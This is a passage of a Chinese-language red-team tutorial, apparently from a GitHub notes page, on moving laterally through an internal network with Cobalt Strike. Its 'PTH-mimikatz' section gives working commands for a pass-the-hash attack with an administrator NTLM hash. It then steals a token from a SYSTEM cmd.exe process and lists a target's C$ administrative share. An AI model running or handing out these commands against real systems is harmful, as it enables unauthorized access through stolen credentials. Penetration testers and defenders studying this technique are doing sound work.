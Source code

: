 [![](assets/1702372940-eb87d5befcda995d1166ef76ea469229.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/21.png)

## [](#PTH-mimikatz "PTH-mimikatz")PTH-mimikatz[](#PTH-mimikatz)

使用`cs`的`mimikatz`进行`pth`，发现执行后在目标主机上弹出 cmd 窗口，可利用进程窃取，直接在 cs 上进行远程操作。

```bash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.91.178 /ntlm:c780c78872a102256e946b3ad238f661
```

这时候 `mimikatz` 会打开一个 system 权限的 cmd 窗口。我们查看目标进程，`explore->process list`,选择最下方的 `cmd.exe` 进程

[![](assets/1702372940-d8ea9267b14df2e5001137f285b126f5.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/22.png)

```bash
steal_token 3532
dir \\192.168.91.178\c$
```
